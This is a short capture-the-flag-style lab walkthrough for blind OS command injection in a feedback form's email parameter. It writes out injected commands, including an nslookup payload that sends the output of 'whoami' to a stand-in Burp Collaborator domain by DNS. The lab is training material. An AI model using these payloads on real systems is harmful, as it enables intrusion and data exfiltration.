








# Lab: Blind OS command injection with out-of-band data exfiltration

> Lab Objective: execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

- Submit a Feedback, then inspect the request.
  

- Inject this command `1& echo Ashour &` within any parameter, you will not notice any change in the response.
  

- Therefore, try triggering an Out-of-Band DNS Lookup to a domain you control, using this command `& nslookup Burp-Collaborator-Domain &`.

- Inject this command within the email parameter
  

- View Burp Collaborator tab you'll notice a DNS Lookup has been made.
  

- In order to check if you can exfiltrate data, try injecting this command `& nslookup ARBITRARY-VALUE.Burp-Collaborator-Domain &`
  

- You'll notice that the arbitrary value has been added to the DNS Lookup.
  

- Therefore, I can inject this command `& nslookup `whoami`.Burp-Collaborator-Domain &`, to retrieve the name of the current user via a DNS Lookup.
  

- The name of the current value has been added to Burp Collaborator Domain
  

- Submit the name of the current user, and the lab is solved.
  

---
